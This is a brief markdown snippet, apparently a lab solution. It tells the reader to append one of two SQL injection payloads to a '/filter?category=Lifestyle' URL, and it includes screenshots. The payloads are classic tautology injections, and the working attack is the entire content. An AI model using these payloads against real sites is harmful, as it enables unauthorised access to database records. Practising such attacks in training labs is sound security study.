 ### Just add one of these to the url in the url bar 🙂
```
/filter?category=Lifestyle'+OR+'1'='1

/filter?category=Lifestyle'+OR+1=1--
```



![image](https://user-images.githubusercontent.com/86168235/125624565-6b9a5cde-ca6c-4f1a-a5f3-ffe5d1f777f5.png)


---



![image](https://user-images.githubusercontent.com/86168235/125628766-a1279e12-9776-4d8b-8626-88aa5fabc0bb.png)
